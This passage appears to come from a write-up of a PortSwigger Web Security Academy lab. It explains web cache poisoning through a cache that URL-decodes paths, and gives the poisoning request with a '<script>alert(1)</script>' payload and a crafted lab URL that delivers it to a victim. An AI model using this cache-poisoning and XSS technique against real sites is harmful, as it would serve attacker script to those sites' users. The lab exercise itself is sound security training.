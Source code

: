 and in the response we get:
```bash
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
Set-Cookie: session=dng4EsyRvqb5l9r3JKjuJFpbQRCHCX6Y; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 0
X-Cache: miss
Content-Length: 21

<p>Not Found: %2f</p>
```

But what's interesting is that the 404 response is now cached and when other users visit the home page `/` instead of the page they will actually see `Not Found: %2f`

It works like that because **the cache is actually url-decoding the path (it decodes `%2f` before injecting it into the cache)** and after decoding in the cache there will be: `/` 
So when users visit `/` they will actually see the cached response 
in this lab's case this means they'll see:
```bash
HTTP/2 404 Not Found
Content-Type: text/html; charset=utf-8
Set-Cookie: session=dng4EsyRvqb5l9r3JKjuJFpbQRCHCX6Y; Secure; HttpOnly; SameSite=None
X-Frame-Options: SAMEORIGIN
Cache-Control: max-age=10
Age: 0
X-Cache: miss
Content-Length: 21

<p>Not Found: %2f</p>
```

And notice that whatever is in the url is reflected in the response
So in burp we poison the cache:
```bash
GET %2f<script>alert(1)</script> HTTP/2
```

And we craft a malicious url and send it to the victim:
```bash
https://0a2d001f03ea0ef880c421ca00bc000f.web-security-academy.net/<script>alert(1)</script>
```



